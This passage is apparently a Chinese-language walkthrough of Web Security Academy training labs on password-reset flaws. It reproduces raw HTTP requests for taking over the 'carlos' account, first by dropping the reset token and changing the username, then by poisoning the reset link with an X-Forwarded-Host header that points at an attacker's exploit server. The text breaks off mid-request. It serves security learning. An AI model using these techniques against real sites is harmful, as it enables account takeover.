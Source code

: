     Referer: https://ac061f4e1fb003f9c0a11d7000400068.web-security-academy.net/forgot-password?temp-forgot-password-token=lfrdGYhsEqU9KdUcCK4LIWiKBcNWB7D7
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
    
    temp-forgot-password-token=lfrdGYhsEqU9KdUcCK4LIWiKBcNWB7D7&username=wiener&new-password-1=111&new-password-2=111

	5.发现请求中有个重置密码token以及以及一个隐藏的用户名wiener，这时候发现，如果将token的参数删除，重发请求，也是能够成功修改用户wiener的密码的，这说明服务其没有对token进行检测，而且用户名由前端指定的话，是存在漏洞的。故可以将username改为carlos，重发请求，则可以改变carlos的密码
	6.用修改后的密码登录carlos账户，完成。


如果重置密码的URL是动态生成的话，也有可能导致密码重置漏洞，如以下靶场。

####lab4通过中间件密码重置####
靶场说明：用户carlos不小心点击了email中收到的link。提供一个用户名和密码wiener：peter，以及该用户的邮箱，要求登录carlos的账户。

实现：

	1.选择忘记密码，通过burp抓包，研究密码重置功能。观察到，密码重置是通过发送一个唯一的包含重置功能的token到邮箱中。
	2.POST /forgot-password的请求如下：
	POST /forgot-password HTTP/1.1
    Host: ac251fa91f63f98cc0f53863000b00a8.web-security-academy.net
    Cookie: session=albqMK1STqZJePGMSmJREyFBDYaXZHmh
    Content-Length: 15
    Cache-Control: max-age=0
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Upgrade-Insecure-Requests: 1
    Origin: https://ac251fa91f63f98cc0f53863000b00a8.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://ac251fa91f63f98cc0f53863000b00a8.web-security-academy.net/forgot-password
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
    
    username=wiener
	将该请求发送到Repeater。通过研究该请求，注意到，X-Forwarded-Host的报头是支持的，故可以通过这种方式将动态生成的reset link指向任意的域。
	3.登录wiener的邮箱，收到重置密码的link。经过分析，重置密码的原理是，服务器收到POST /forgot-password的请求后，发送一个包含token的link，然后用户用该link重置密码，关键是拿到token。
	4.记录下攻击者的服务器URL
	5.将POST /forgot-password的请求进行修改，添加X-Forwarded-Host的报头：
	X-Forwarded-Host: your-exploit-server-id.web-security-academy.net
	6.请求中的用户名参数改为carlos，即发送以下请求：
    POST /forgot-password HTTP/1.1
    Host: accc1fbf1e96526cc0518046004100a9.web-security-academy.net
    Cookie: session=87Nncl5zfDrHYhxCdHN4It5KGDJ4K56L
    Content-Length: 15
    Cache-Control: max-age=0
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Upgrade-Insecure-Requests: 1
    Origin: https://accc1fbf1e96526cc0518046004100a9.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded